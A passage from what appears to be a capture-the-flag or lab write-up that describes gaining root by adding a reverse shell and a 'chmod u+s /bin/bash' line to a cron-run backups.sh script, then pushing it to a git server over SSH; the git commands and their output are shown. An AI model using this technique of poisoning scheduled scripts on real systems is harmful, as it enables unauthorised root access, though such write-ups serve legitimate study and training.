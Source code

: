 I echoed in a reverse shell and a `chmod u+s /bin/bash`, and then made it executable. Afterwards, I submitted a push request to add the edited `backups.sh` into the repository.

```
$ git add *
$ git commit -m "merge pls"
$ GIT_SSH_COMMAND='ssh -i ../key -p 43022' git push origin master                
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 375 bytes | 375.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
To 192.168.183.125:/git-server
   b50f4e5..99010a3  master -> master
```

Then, we can just wait for the `cronjob` to execute our reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (22) (12).png" alt=""><figcaption></figcaption></figure>

